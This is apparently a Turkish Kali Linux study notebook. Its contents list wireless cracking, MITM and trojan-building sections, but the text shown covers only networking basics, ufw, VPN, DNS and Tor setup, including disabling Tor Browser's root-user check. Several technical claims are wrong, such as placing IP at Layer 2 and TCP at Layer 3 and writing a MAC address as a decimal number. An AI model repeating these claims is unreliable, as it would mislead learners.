# İçindekiler
- [İçindekiler](#i̇çindekiler)
- [Giriş](#giriş)
- [Sanal Makina (VirtualBox vb.) Ağ Yapılandırması](#sanal-makina-virtualbox-vb-ağ-yapılandırması)
  - [NAT Mod](#nat-mod)
  - [Bridge Mod](#bridge-mod)
  - [Host Only Mod](#host-only-mod)
- [Ağlara Giriş](#ağlara-giriş)
  - [İletişim Nedir?](#i̇letişim-nedir)
  - [Ağ Nedir?](#ağ-nedir)
  - [İnternet Nedir?](#i̇nternet-nedir)
  - [Önemli Ağ Terimleri](#önemli-ağ-terimleri)
    - [Sunucu](#sunucu)
    - [Hyperconverged Cihazlar](#hyperconverged-cihazlar)
    - [Uç Sistemler - Uç Birimler](#uç-sistemler---uç-birimler)
    - [Paketler](#paketler)
    - [Veri İletişimi (Data Transmission)](#veri-i̇letişimi-data-transmission)
    - [Ağ Protokolü Nedir?](#ağ-protokolü-nedir)
    - [TCP/IP](#tcpip)
      - [TCP/IP Katmanlarında Kullanılan Bazı Protokoller](#tcpip-katmanlarında-kullanılan-bazı-protokoller)
    - [OSI (Open Systems Interconnection) Referans Modeli](#osi-open-systems-interconnection-referans-modeli)
      - [OSI Referans Modelindeki 7 Katman](#osi-referans-modelindeki-7-katman)
    - [MAC Adresi](#mac-adresi)
    - [ISP](#isp)
    - [IP](#ip)
    - [DNS (Domain Name Server)](#dns-domain-name-server)
    - [ARP (Address Resolution Protocol)](#arp-address-resolution-protocol)
    - [VPN (Virtual Private Network)](#vpn-virtual-private-network)
    - [Firewall (Güvenlik Duvarı)](#firewall-güvenlik-duvarı)
      - [UFW (Uncomplicated Firewall)](#ufw-uncomplicated-firewall)
  - [Cihazların İletişime Başlaması](#cihazların-i̇letişime-başlaması)
    - [Handshake (3-Way Handshake)](#handshake-3-way-handshake)
    - [Syn Paketi](#syn-paketi)
    - [ACK Paketi](#ack-paketi)
  - [VPN Kullanımı](#vpn-kullanımı)
  - [DNS Değiştirmek](#dns-değiştirmek)
- [Dark Web](#dark-web)
  - [Tor Browser Yüklemek](#tor-browser-yüklemek)
- [Ufak Bir Terminal Trick'i](#ufak-bir-terminal-tricki)
- [Ağlara Saldırmak](#ağlara-saldırmak)
  - [Saldırı Öncesi Ayarlar](#saldırı-öncesi-ayarlar)
    - [MAC Adresi Değiştirmek](#mac-adresi-değiştirmek)
    - [Monitor ve Managed Mod](#monitor-ve-managed-mod)
        - [Mod Değiştirmek İçin 1. Yöntem (airmon-ng)](#mod-değiştirmek-i̇çin-1-yöntem-airmon-ng)
        - [Mod Değiştirmek İçin 2. Yöntem (iwconfig)](#mod-değiştirmek-i̇çin-2-yöntem-iwconfig)
  - [Ağlarla İlgili Bilgi Toplamak](#ağlarla-i̇lgili-bilgi-toplamak)
    - [Ağları İncelemek (Sniffing)](#ağları-i̇ncelemek-sniffing)
    - [Belirli Bir Ağa Özel Bilgi Edinmek](#belirli-bir-ağa-özel-bilgi-edinmek)
    - [Deauth Saldırısı](#deauth-saldırısı)
  - [Ağlara Saldırmak](#ağlara-saldırmak-1)
    - [Encryption (Şifreleme Modelleri)](#encryption-şifreleme-modelleri)
      - [WEP](#wep)
        - [WEP Cracking](#wep-cracking)
        - [Fake Auth (Sahte Yetkilendirme)](#fake-auth-sahte-yetkilendirme)
        - [Package Injection (Paket Enjeksiyonu)](#package-injection-paket-enjeksiyonu)
      - [WPA](#wpa)
        - [Handshake Yakalamak](#handshake-yakalamak)
        - [Wordlist Oluşturmak](#wordlist-oluşturmak)
        - [Handshake'e Karşı Wordlist Kullanmak](#handshakee-karşı-wordlist-kullanmak)
  - [Bağlantı Sonrası Yapılacaklar](#bağlantı-sonrası-yapılacaklar)
    - [Bağlandığımız Ağları İncelemek](#bağlandığımız-ağları-i̇ncelemek)
      - [Netdiscover](#netdiscover)
      - [Nmap](#nmap)
      - [Wireshark](#wireshark)
    - [Man In The Middle (Ortadaki Adam/MITM)](#man-in-the-middle-ortadaki-adammitm)
      - [ARP Spoof (ARP Kandırma)](#arp-spoof-arp-kandırma)
    - [Web Sunucu Kurmak](#web-sunucu-kurmak)
    - [Bettercap](#bettercap)
      - [Bettercap ile ARP Spoof](#bettercap-ile-arp-spoof)
      - [Bilgileri Çalmak](#bilgileri-çalmak)
    - [HTTPS Kırmak](#https-kırmak)
- [Bilgisayarları Ele Geçirmek](#bilgisayarları-ele-geçirmek)
  - [Metasploitable](#metasploitable)
  - [Zenmap](#zenmap)
    - [Kurulum](#kurulum)
    - [Kullanım](#kullanım)
  - [Msfconsole](#msfconsole)
- [Kullanıcılara Saldırmak](#kullanıcılara-saldırmak)
  - [Veil](#veil)
    - [Trojan Oluşturmak](#trojan-oluşturmak)
    - [Anti-Virüslere Yakalanmamak](#anti-virüslere-yakalanmamak)
    - [Multi Handler Oluşturmak](#multi-handler-oluşturmak)
- [Sosyal Mühendislik](#sosyal-mühendislik)
  - [Görseller ile Dosyayı Birleştirmek](#görseller-ile-dosyayı-birleştirmek)
  - [Uzantıları Değiştirmek](#uzantıları-değiştirmek)

# Giriş
Bu döküman **Linux** işletim sisteminin **Kali Linux** dağıtımı üzerinde hazırlanmıştır. İlgili sistem bilgileri aşağıda bulunmaktadır.<br>
```
# lsb_release -a
>>> No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2020.2
Codename:       kali-rolling

# cal
>>>   May 2020        
Su Mo Tu We Th Fr Sa  
                1  2  
 3  4  5  6  7  8  9  
10 11 12 13 14 15 16  
17 18 19 20 21 [22] 23  
24 25 26 27 28 29 30  
31   
```

[Sanal Makina](#sanal-makina-virtualbox-vb-a%c4%9f-yap%c4%b1land%c4%b1rmas%c4%b1) ve [Ağlara Giriş](#a%c4%9flara-giri%c5%9f) bölümündeki tanımlara ait notları **Gökay Bekşen**'in [Youtube hesabından](https://www.youtube.com/user/gokaybeksen), **Cemal Taner**'in **Kali ile Ofansif Güvenlik** kitabından ve **Oğuz Erden - İrfan Cemal Nursaçan**'ın **Bilgisayar Ağlarına Giriş Rehberi** kitabından öğrenmeye çalıştıklarım doğrultusunda not almaya çalıştım. <br>
Yine **Kali Linux** ve ilgili **tool**'lara ait notları ise **Atıl Samancıoğlu**'nun [Udemy üzerindeki kursundan](https://www.udemy.com/course/etik-hacker-olma-kursu/) ve **Mustafa Altınkaynak**'ın **Siber Güvenlik ve Hacking** kitabından öğrenmeye çalıştıklarım doğrultusunda not almaya çalıştım.
# Sanal Makina (VirtualBox vb.) Ağ Yapılandırması
Kurduğumuz sanal makinanın Network adaptör modlarının ne anlama geldiğine bakalım
## NAT Mod
Kullandığımız sanal işletim sistemine IP adresinin sanal ağ kartı tarafından atanmasıdır. Bu modda sanal işletim sistemimiz, üzerinde çalıştığı fiziksel işletim sistemi ile aynı networkde çalışan cihazlar ile iletişim kuramazken; NAT moda alınmış diğer sanal sistemler ile iletişim kurabilir.
## Bridge Mod
Sanal makinemiz IP isteğinde bulunduğunda, IP isteği sanal ağ kartından değil, üzerinde çalıştığı fiziksel makinanın ağ kartı ile karşılanır ve bir IP adresi atanır. Mesela makinamızın adresi 192.168.1.12 ise Kali'mizin adresi 192.168.1.9 olabilir ve fiziksel ağa dahil edebiliriz. 
## Host Only Mod
Bu mod sanal makineler için özel bir ağ oluşturmamızı sağlar. Sanal makineler İnternet'e çıkamaz fakat kendi aralarında haberleşebilir
# Ağlara Giriş
## İletişim Nedir?
**İsim olarak**; duygu, düşünce veya bilgilerin akla gelebilecek her türlü yolla başkalarına aktarılması, bildirişim, haberleşme, komünikasyon. (TDK, 2020) <br>
**Teknik olarak**; Telefon, telgraf, televizyon, radyo vb. araçlardan yararlanarak yürütülen bilgi alışverişi, bildirişim, haberleşme, muhabere, komünikasyon. (TDK, 2020)
## Ağ Nedir?
Kendisini oluşturan yapıda çalışan, en az iki birimin ortak bir amaç için daha önce belirledikleri protokollerle bir iletişim hattını kullanarak yaptıkları haberleşme ya da **iletişim sisteminin** genel adıdır.
## İnternet Nedir?
İrili ufaklı bir çok ağın birleşerek oluşturdukları, dünyada sayısı yüz milyonları bulan cihazları birbirlerine bağlayıp işlem yapmasını sağlayan bir **ağdır**.
## Önemli Ağ Terimleri
### Sunucu
Kısaca sunucu; bulundukları ağlarda diğer ağ bileşenlerinin kendilerine erişip işlem yapmalarını sağlayan, genellikle ortak bir amaç için çalışan, kendi kaynaklarını erişime açmış cihazlardır. Genellikle **client (istemci)** cihazlardan güçlüdürler.
### Hyperconverged Cihazlar
Sanal platformlar için geliştirilmiş özel ürünlerdir. Kısaca; Data Center'larda bulunan donanımları (Storage, SAN Switch vd.) birleştirerek tek bir mimari çatı altında toplayan, yönetimi, ekonomiyi ve performansı birleştiren ürünlerdir.
### Uç Sistemler - Uç Birimler
Uç sistemler terimi tek bir cihazı temsil etmemektedir. Hostlardan (sunucu) hizmet alan ya da tek başına çalıştığında da işlem gücüne sahip olan cihazların (laptop, masaüstü, akıllı telefon, TV vd.) tümüne **Uç Sistemler** denmektedir.
### Paketler
Demiştik ki İnternet; cihazların birbirleriyle iletişime geçip işlem yapmasını sağlayan bir **ağdır**. Bu cihazlar birbirleriyle iletişime geçerken **paket**lerden yararlanırlar. Yani bir cihazın başka bir cihaz ile  ileteceği veriye, ilgili başlıkları (**header**, web geliştirme ile ilgilenenler bilirler -> text/html vb.) ekleyip, tek seferde ağa bırakılacak maksimum veri miktarına göre **(MTU)** küçük parçalara bölme işlemi sonucunda elde edilen **veri parçacıkları**dır.
### Veri İletişimi (Data Transmission)
Bir ağı oluşturan hostların (sunucu) ve uç sistemlerin aralarında yapmış oldukları veri alış-verişine verilen isimdir. Veri iletiminde beş bileşen vardır. Bu beş bileşenin yegane amacı **veriyi istenilen zamanda, doğru hedefe, veri kaybı olmadan iletmektir**. Veri İletişimi'nin beş bileşeni:
- **Sender (Gönderen)**
  - Ağ ortamında mesajı oluşturan ve oluşturduğu mesajı ortama bırakan cihazlardır. Genellikle host (sunucu)'lardır.
- **Receiver (Alıcı)**
  - Ağ ortamında kendisi için sender tarafından gönderilen mesajı alan cihazlardır. Genellikle uç sistemlerdir. Aynı zamanda alıcılar **hedef** olarak da adlandırılabilirler.
- **Message (Mesaj)**
  - Sender'dan receiver'a gönderilmesi için ağ ortamına bırakılan veriye mesaj denir.
- **Medium (Ortam)**
  - Sender'dan receiver'a mesajın ulaşması için kullanılan yola medium (ortam) denir. Bilgisayar ağında bu yol; fiber optik kablolar, bakır kablolar ve kablosuz ortamlardır.
- **Protocol (Protokol)**
  - Sender'dan receiver'a bir medium kullanılarak gidecek mesajın, eksiksiz ve zamanında iletilmesinin sağlanması için önceden tanımlanmış kurallar bütünüdür. 


### Ağ Protokolü Nedir?
Farklı ağ ortamları arasında iletişimin sağlanmasında, adreslemenin yapılmasında, hata kontrolünün yapılmasında ve olası hata durumunda paketlerin yeniden gönderilmesinde sorumlu olan protokollerin tamamıdır. Veri iletim aşamalarının tamamını denetleyen kurallar bütünüdür.
### TCP/IP
**TCP** ve **IP** her ne kadar birlikte kullanılsalar da aslında **iki farklı ağ protokolüdür**. Popüler olmaları ve geniş kabul görmeleri nedeniyle, ağa bağlı cihazların işletim sistemlerinde kurulmuştur. TCP/IP 4 katmandan oluşur. <br>
IP protokolü network; yani Layer 2'de (2. katman) çalışırken; TCP protokolü taşıma yani Layer 3'te (3. katman) çalışır. <br>
Aşağıdaki şemadan hangi katmanda hangi protokollerin çalıştığını görebilirisiniz.
- Application Layer (Uygulama Katmanı)
  - En üst katmandır.Bu katmanda sender'dan receiver'a gidecek veriyi göndermek için uygulamalara ihtiyaç duyulur. Veri göndermek istenen uygulama ve kullandığı dosya biçimi tespit edilerek gönderilen verinin türüne göre farklı protokoller çalıştırılır (HTTP, FTP vb.). 
- Transport Layer (Taşıma Katmanı)
  - Verinin sender'dan receiver'a ne şekilde gönderildiğinin belirlendiği/görüldüğü katmandır. Aynı zamanda flow control (veri akış kontrolü), error control (hata kontrolü) vb. işlemlerin de yapıldığı katman olarak bilinir.
  - TCP (Transmission Control Protocol)
    - İhtiyacımız olan **hatasız ve sıralı biçimde** veri iletilmesi ise TCP kullanmak bizim için daha faydalı olacaktır. TCP'de iki cihaz arasında veri iletiminin sağlanması için [3-Way Handshake](#handshake-3-way-handshake) bağlantısı sağlanır.
  - UDP (User Datagram Protocol)
    - Eğer ihtiyacımız olan **hız** ise UDP kullanmak bizim için daha faydalı olacaktır. UDP'de TCP'den farklı olarak ihtiyacımız olan paketlerin karşı tarafa gidip gitmemesi önemsenmez. Yani 3-Way Handshake yoktur. Flow control ve tekrar iletim işlemlerinin yapılmamasından dolayı iletim süresi daha azdır. SNMP, TFTP gibi protokoller UDP kullanarak çalışır
- Internet Layer (İnternet Katmanı)
  - Bu katmana bazı yerlerde **IP Katmanı** da denmektedir. Bu katmanda sender ve receiver IP adresleri veriye eklenerek verinin en son gideceği adresler belirlenmiş olur. **IP adreslerinin eklenmesiyle, veriyi de içeren yeni veri bloğuna DATAGRAM denir.** ICMP,ARP,IP,IGMP, gibi protokoller bu katmanda çalışır.
- Network Interface Layer (Ağ Arayüzü Katmanı)
  - Genelde ağ donanımlarıyla sender arasındaki fiziksel arabirim olarak bilinen katmandır. Bazı yerlerde **Veri Bağlantısı** katmanı da denmektedir. 

 

#### TCP/IP Katmanlarında Kullanılan Bazı Protokoller
- ICMP (Internet Control Message Protocol)
  - **İnternet Yönetim Mesajlaşma Protokolü**. Ağa bağlı cihazlarla ilgili hata ve türlü bilgi mesajlarını ileten protokoldür. Önemli ve temel bir network protokolüdür.
- SMTP (Simple Mail Transport Protocol)
  - Basit Posta Taşıma Protokolü. E-posta sunucusu ile makinemiz arasındaki e-posta gönderme işleminin kurallarını belirleyen protokoldür. E-postaları almak için IMAP ve POP3 protokolleri ise alt protokoller olarak kullanılır. Ülkemizde SMTP'nin 25. portunun bazı ISP'ler tarafından kapatılması durumunda 587. port kullanılmaktadır.
- SNMP (Simple Network Management Protocol)
  - Basit Ağ Yönetim Protokolü. Ağımızda gözlemleme (monitoring) işlemleri yapmamızı sağlayan protokoldür.
- TELNET (Telecomunication Network)
  - Hostlara, ağ cihazlarına terminal bağlantısı gerçekleştirmek üzere geliştirilmiş bir protokoldür.
- FTP (File Transfer Protocol)
  - Dosya Aktarım Protokolü. TCP/IP ağında iki cihaz arasında dosya aktarımı yapabilmeleri için geliştirilmiştir.
- HTTP (Hypertext Transfer Protocol)
  - Hiper Metin Aktarım Protokolü. TCP/IP ağlarında yaygın olarak WEB sayfalarının görüntülenmesi için kullanılır.
- HTTPS (Secure Hypertext Transfer Protocol)
  - Güvenli Hiper Metin Aktarım Protokolü. HTTP'ye **SSL(Secure Socket Layer)** yani güvenli soket katmanının eklenmesiyle elde edilen bir protokoldür. 
### OSI (Open Systems Interconnection) Referans Modeli
ISO tarafından 1970'lerin sonunda piyasaya çıkartılmıştır. Bir referans **modeli**dir. Ağların oluşturulması sırasında donanımsal ve yazılımsal çözümleri düzenleyen standarttır. Ağ ile etkileşime sahip uygulamaların birbirleriyle nasıl, ne şekilde iletişim kuracaklarını tanımlar. 7 katmandan oluşur.<br> OSI bir standart olmasından dolayı **ortama göre değişiklik göstermez**. <br>
Katmanlar 1'den 7'ye doğru hareket edebildiği gibi 7'den 1'e doğru da hareket edebilir. 7 katman birbirleri ile ilişki içerisindedir. <br>
OSI Referans Modelini **2 büyük grup altında toplayabiliriz**. İlk grup 1. Layer'dan 4. Layer'a kadardır. **1. ve 4. Layer'lar bu gruba dahildir**. Bu ilk grubun amacı sender'dan çıkan verinin receiver'a ulaşmasının nasıl olduğunu açıklayan bölümdür. İkinci grup ise **7.,6. ve 5. Layer'lardan oluşur**. Bu son grup; cihazların üzerinde çalışan uygulamalar ile nasıl etkileşime geçeceğini belirler. <br>
Bazı cihazlar bu 7 katmanda da çalışabilirler. Bunlar:
- Web sitelerinin ya da uygulamalarının bulunduğu sunucular
- Ağda bulunan hostlar
- Ağ yönetim istasyonları ya da yabancı isimlendirilmesiyle NMS'ler
- Gateway (Geçit yolu) cihazları



#### OSI Referans Modelindeki 7 Katman
- Physical Layer (Fiziksel Katman) - Layer 1
  - Fiziksel bağlantı sağlandıktan sonra veriler 1 ve 0'lara çevrilerek (binary transmission) taşınırlar. Arayüz bağlantısının belirlendiği katmandır. Kablolar ve Hub'lar bu katmanda çalışır
- Data Link Layer (Veri Bağlantı Katmanı) - Layer 2
  - MAC adresi anlamına gelir. Switch Bridge ve Ethernet kartı gibi cihazların bulunduğu katmandır. Verinin fiziksel olarak aktarılmasının gerçekleştiği katmandır. Aynı zamanda hata bildirmek de bu katmanın görevidir.
- Network Layer (Ağ Katmanı) - Layer 3
  - Bu katmanda IP protokolü kullanılır. Cihaz olarak bakarsak Router'lar bu katmanda çalışır. Local olarak birbirlerine bağlı olamayan cihazların veri trafiklerini en verimli yoldan birbirlerine aktardıkları katman Network katmanıdır.
- Transport Layer (İletim Katmanı) - Layer 4
  - Bu katmanda uçtan uca bağlantı sağlanır. Verilerin bozulmaya uğramadan iletilmesi, akış kontrollerinin yapılması, hata ile karşılaşılırsa verinin sender'dan yeniden istenmesi vb. işlemler bu katmanda yapılır. Bu katmanda iletim 2 türlü yapılır. TCP veya UDP
- Session Layer (Oturum Katmanı) - Layer 5
  - Oturum açma vb. işlemlerin yapıldığı katmandır. Anlık mesajlaşmanın yapıldığı yazılımlar bu katmanı bolca kullanmaktadır.
- Presentation Layer (Sunum Katmanı) - Layer 6
  - Verilerin belirli formatlara bölünmeye veya toplanmaya başladığı katmandır. 7. katmana 5. katmandan gelen veriyi iletmek ya da tam tersini yapmak için **veriyi kodlayarak ya da çözerek** sunan katmandır.
- Application Layer (Uygulama Katmanı) - Layer 7
  - Uç noktada, yani son kullanıcıda çalışan katmandır. Kısaca kullanıcıların ağ kullanarak gönderilen ya da gönderilecek paketlerle bilgisayar ekranlarında veya ağ cihazlarında iletişime geçtiği katmandır.



### MAC Adresi
Aslında bir Ağ protokolü **değildir**. Network'de (ağ) bulunan her cihazın sahip olduğu, başka ağlara dahil olduğunda bile değişmeyen bir adresi vardır. Bu adres **48 bitlik MAC** adresidir. Fakat **istenirse bu adres manuel olarak değiştirilebilir!** <br>
Ağda bulunan her bir cihaza ait ağ kartı (NIC) tek bir MAC adresine sahiptir (örnek: 281,321,675,498,362). <br>
Cihazlar birbirleriyle iletişim kurarken MAC adresleri üzerinden iletişim kurarlar. 
### ISP 
İnternet Servis Sağlayıcı demektir. İnternet'i belirli ücretler veya yasalar, sözleşmeler vb. karşılığında bize ulaştıran şirket veya kuruluşlardır (Türk Telekom vb.).
### IP
Fiziksel ya da sanal olarak bir ağa katılan her bir cihazın(birimin) sahip olduğu (olması gereken) ve dahil olduğu ağda sadece o cihaz için tahsis edilmiş, çeşitli kurallara göre tasarlanmış sayısal kimliktir. Günümüzde iki sürümü bulunmaktatır. Versiyon 4 (IP/v4) ve Versiyon 6 (IP/v6). <br>
Local IP adreslerimiz ile Public IP adreslerimiz farklı kavramlardır. <br>
Local IP; kullandığımız cihaza, interneti aldığı cihaz (modem vb.) tarafından atanan IP adresidir. `ifconfig` komutu ile Local IP adresimizi öğrenebiliriz.
```
# ifconfig
>>> eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.87  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::76e6:e2ff:fe28:35bc  prefixlen 64  scopeid 0x20<link>
        ether 74:e6:e2:28:35:bc  txqueuelen 1000  (Ethernet)
        RX packets 148083  bytes 182884871 (174.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 67865  bytes 10050056 (9.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
<br>
Public IP; bize ISP(İnternet Servis Sağlayıcı Türk Telekom vb.) tarafından verilir. İnternet'e bu IP adresi ile çıkarız.

### DNS (Domain Name Server)
İnternet ağ yapısında her cihaz bir IP adresine sahiptir. Kısaca DNS'ler IP adreslerinin domain'lere (alan adı) aktarılmasını sağlar. <br>
Aslında `www.domainim.com` 'a gittiğimizde `domain.com`'a değil, bu domainin host edildiği sunucunun (host) IP adresine istek atarız. Bu IP adresini çözümleyen sistem DNS'dir. Ufak bir örnek yaparak daha iyi pekişmesini sağlayalım.
```
# ping google.com
>>> PING google.com (216.58.206.174) 56(84) bytes of data.
64 bytes from sof02s27-in-f14.1e100.net (216.58.206.174): icmp_seq=1 ttl=53 time=40.5 ms
```
Gördüğümüz gibi `google.com`'a gitmek istediğimizde, o domainin IP adresini (216.58.206.174) çözümleyen sistemdir.
### ARP (Address Resolution Protocol)
OSI Layer 3'de verilen IP adreslerinin, Layer 2'deki MAC adreslerine çözümlenmesini sağlayan bir protokoldür. **STD 37** kodlu bir İnternet standardıdır. Kısaca **Adres Çözümleme Protokolü** diyebiliriz. Bir IP adresinin hangi internet arayüzü tarafından kullanıldığı bulmaya yarar.
### VPN (Virtual Private Network)
Sanal Özel Ağ demektir. **Uzaktan** erişim yoluyla **farklı ağlara** bağlanabilmeyi sağlayan teknolojidir. VPN sanal bir ağ uzantısı oluşturduğundan, VPN kullanarak bir ağa sanal olarak bağlandığımız cihaz, sanki **fiziksel olarak bağlıymış gibi** veri alış-verişi yapabilir. 

### Firewall (Güvenlik Duvarı)
Yerel ağımız ile dış ağlar arasındaki iletişimin güvenliğini sağlayan yazılım ve donanımlardır. Dilersek yerel ağdaki iletişimi de kontrol edebilecek şekilde yapılandırabiliriz. Güvenlik Duvarı üzerinde politikalar belirlenebilir. Bu politikalara '**rule**' denmektedir. Tanımlanmış rule'lar sayesinde hangi data paketlerinin iletilip iletilmeyeceği, erişim engellemeleri, kimlerle iletişime geçilebileceği vs. belirlenebilir.
#### UFW (Uncomplicated Firewall)
UFW bir güvenlik duvarı yönetim aracıdır. 
- `apt-get install ufw` diyerek aracı sistemimize kurabiliriz
- `ufw enable` UFW'yi etkinleştirebiliriz
- `ufw disable` UFW'yi pasifleştirebiliriz
- Mevcut UFW'ye ait kurallar dizisini görmek için `ufw status verbose` komutunu kullanabiliriz
- Kural içerikleri `etc/ufw` altında `.rules` uzantısı ile biten dosyalarda yer almaktadır
- UFW üzerinde 2 farklı davranış belirleyebiliriz. `allow` ile gelen isteklere izin verebilir ve `deny` ile gelen istekleri reddedebiliriz.
- `allow` içeren kuralların tanımlanmasının temel yapısı şu şekildedir -> `ufw allow <port>/<optional:protocol>`
  - `ufw allow 53/tcp ` -> yalnızca 53. port üzerinden gelen TCP protokollere izin verdik
- `deny` içeren kuralların tanımlanmasının temel yapısı şu şekildedir -> `ufw deny <port>/<optional:protocol>`
  - `ufw deny 53 ` -> yalnızca 53. port'tan gelen istekleri kapattık
- Belirli subnete izin vermek için temel komut dizilimi şu şekildedir -> `ufw allow from <subnet_ip>`
  - `ufw allow from 192.168.1.0/24`
- Belirli bir IP adresine erişim izni vermek istersek temel komut dizilimi -> `ufw allow from <IP>`
  - `ufw allow from 10.50.1.55`
- Belirli bir IP adresine ve yalnızca bir port için erişim izni vermek istersek temel komut dizilimi -> `ufw allow from <IP> to any port <port_number`
  - `ufw allow from 10.50.1.55 to any port 22`
- Bazı durumlarda kuralların birbirini bastırdığı durumlar olabilir. Mesela SSH bağlantılarını tümüyle kapatan bir kural ekledik. Daha sonra sadece bir adres için SSH izni verdik. Bu durumda ilk eklediğimiz kural etkin olacaktır ve belirlediğimiz IP de SSH ile bağlanamayacaktır. Bunun önüne geçmek için araya kural eklemesi yapabiliriz.
  - `ufw insert 1 allow from <IP> to any port <port_number>`
- Berlirli bir IP adresi veya subnet için protokol sınırlaması getirebiliriz
  - `ufw insert 1 allow from <IP> to any port <port_number> proto <protokol>` -> `ufw insert 1 allow from 10.50.1.55 to any port 22 proto tcp`
- UFW üzerinde kural kaldırmak istersek eklediğimiz rule'a `delete` eklememeiz yeterli olacaktır
  - `ufw deny 80/tcp`
  - `ufw delete deny 80/tcp`
- Ya da tüm kurallar içerisinden belirlediğimizi silmek istersek `ufw status numbered` ile belirlediğimiz tüm rule'ları listeleyebiliriz. Ardından silmek istediğimizin numarasını argüman olarak yollayarak silebiliriz. `ufw delete <numara>` -> `ufw delete 1` gibi
- UFW `etc/services` altına da erişebildiği için hizmet (service) adına göre de rule ekleyebiliriz. Temel komut dizilimi şu şekildedir -> `ufw deny <service>`
  - `ufw deny ssh` -> ssh servisini devre dışı bıraktık, bağlantıları engelledik
- UFW loglama için ekstra bir argüman yollanmadığı sürece `low` level loglama yapar. Temel komut dizilimi şu şekildedir -> `ufw logging <log_level>` -> `ufw logging off` vb. Loglama için seçenekler şunlardır:
  - `low` -> düşük seviye loglama
  - `medium` -> orta seviye loglama
  - `high` -> yüksek seviye loglama
  - `full` -> en yüksek seviye, detaylı loglama
  - `off` -> loglama kapalı

## Cihazların İletişime Başlaması
Cihazlar iletişime başlamadan önce kendi aralarında bir iletişim şekli belirlerler. Aynı zamanda veri iletiminin doğru ve düzenli olması açısından bir de protokol belirlenir.
### Handshake (3-Way Handshake)
El sıkışma anlamına gelir. İletişime başlayacak iki cihazın da karşılıklı anlaşmasına **handshake** denir. TCP protokolüne göre iki taraf iletişime el sıkışarak başlar.
### Syn Paketi
Senkronizasyon paketi anlamına gelir. İletişim başlatmak isteyen cihaz, iletişime geçmek istediği cihaza **ilk önce** Syn paketi gönderir.
### ACK Paketi
Kabul paketi anlamına gelir. İletişime geçilmek istenen cihaz kendisine Syn paketi gelmesi durumunda sender'a **Syn + ACK** paketi gönderir ve sinyali alıp cevap verebilir durumda olduğunu işaret eder.



## VPN Kullanımı
Dilersek işlemlerimize başlamadan önce www.whatismyip.com üzerinden Public IP adresimizi görüntüleyebiliriz. <br>
VPN kullanmak için `VPN Book` denilen aracı kullanmaktayız. <br>
Öncelikle bir adet VPN Book'a ihtiyacımız vardır. Bunu internette arama yaparak rahat bir şekilde temin edebiliriz (www.vpnbook.com vb.). OpenVPN türünde bir VPN Book indirmemiz gerekmektedir. <br>
İndirdiğimiz VPN Book'ları `openvpn` komutu ile çalıştırarak VPN'i aktif edebiliriz. Username ve Password genelde VPN Book'u indirdiğimiz sitede bulunmaktadır. En son satırdaki output'u alırsak VPN'i başarılı bir şekilde aktif etmişiz demektir. `ctrl + c` kombinasyonu ile işlemi bitirebiliriz.
```
# openvpn vpnbook-fr8-tcp80.ovpn 
>>> Fri May 22 00:48:21 2020 Initialization Sequence Completed
```
## DNS Değiştirmek
`/etc/dhcp/dhclient.conf` dosyasını herhangi bir text editör ile açıyoruz. <br>
`#prepend domain-name-servers` satırını bulup başındaki `#` işaretini kaldırıyoruz. Comment Line olarak düşünebiliriz. <br>
`cat /etc/resolv.conf` komutu ile DNS'lerimizin değişip değişmediğini görebiliriz. Eğer burada eklediğimiz DNS'leri göremediysek direkt bu dosyayı değiştirebiliriz (nameserver satırı). <br>
Unutmamalıyız ki bu işlemi bilgisayarımızı her açıp kapattığımızda **tekrarlamalıyız!** 
```
# nano /etc/dhcp/dhclient.conf
# cat /etc/resolv.conf
>>> # Generated by NetworkManager
search home
nameserver 192.168.1.1

# nano /etc/resolv.conf
```

# Dark Web
Öncelikle bu bölüme **Dark Web != Deep Web** diyerek başlamakta fayda var :stuck_out_tongue_winking_eye: <br>
İnsanların erişiminin olmadığı, arama motorlarının indexlemediği herhangi bir içerik **Deep Web** içerisinde yer almaktadır/ **Deep Web** olarak adlandırılmaktadır. Bunlara örnek olarak Cloud'a atılan fakat sadece bizim erişimimiz olan dosyalar vs. verilebilir. <br>
**Dark Web** ise; insanların erişimlerinin kısıtlandığı, özel VPN'ler ile ([Tor Browser](www.torproject.org)) girilebilen **web siteleri topluluğu**dur. <br>
Kısaca Tor Browser ise; kullandığımız süre boyunca VPN'imizi sürekli değiştirmemizi sağlar ve IP adresimizi sürekli olarak değiştirir. Bu sayede IP adresimizin izinin sürülmesi zorlaşır. **VPN içinde VPN içinde VPN** şeklinde düşünebiliriz.



## Tor Browser Yüklemek
Kurulum için VPN'i aktif etmemiz kurulum adına faydalı olacaktır (bir çok ülkede yasaklı olmasından dolayı). <br>
Öncelikle `apt-get install tor` komutu ile Tor Browser için gerekli olan paketleri yükleyelim.
```
# apt-get install tor
```
- [Tor Browser indirme sayfası](https://www.torproject.org/download/)'na giderek işletim sistemimize uygun olan kurulum paketini indirebiliriz. 
- `cd` komutu sayesinde kurulum paketini indirdiğimiz dizine gidebiliriz. Ardından `tar -xvf` komutu ile indirdiğimiz arşiv dosyasını dizine çıkartabiliriz. 
- Çıkarttığımız dizine giderek `./start-tor-browser.desktop` komutu ile tor browser'ı çalıştırabiliriz.
```
# cd Downloads
# tar -xvf tor-browser
# ./start-tor-browser.desktop
```
- `root` kullanıcısı ile oturum açtıysak bize hata verecektir (root kullanıcısı ile tor browser açılamaz vb.).
- Tor Browser dosyalarını çıkarttığımız dizin içerisinde `Browser` adındaki dizine gidelim.



- `nano start-tor-browser` komutu ile tor browser SHELL Script konfigürasyon dosyasını açalım<br>
if [ "id -u" -eq 0 ]; then <br>
        complain "The Tor Browser Bundle should not be run as root.  Exiting." <br>
        exit 1 <br>
fi
- satırLARINI bulup her satır başına `#` koyalım ve yorum satırı haline getirelim ve dosyayı **kaydedip çıkalım**. 
- tekrar `./start-tor-browser.desktop` komutu ile Tor Browser'ı çalıştırabiliriz. Her adımı doğru uyguladıysak başarılı bir şekilde tarayıcımız açılacaktır.
```
# cd Browser/
# nano start-tor-browser
# ./start-tor-browser
```
- Eğer yine hata alırsak veya browser açılması takılırsa, açılış ekranından **Configure** seçeneğini seçerek **Bridge (Köprü)** üzerinden bağlanmayı deneyebiliriz. Fakat unutmamalıyız ki **ilk başta açılış biraz uzun sürmektedir**.



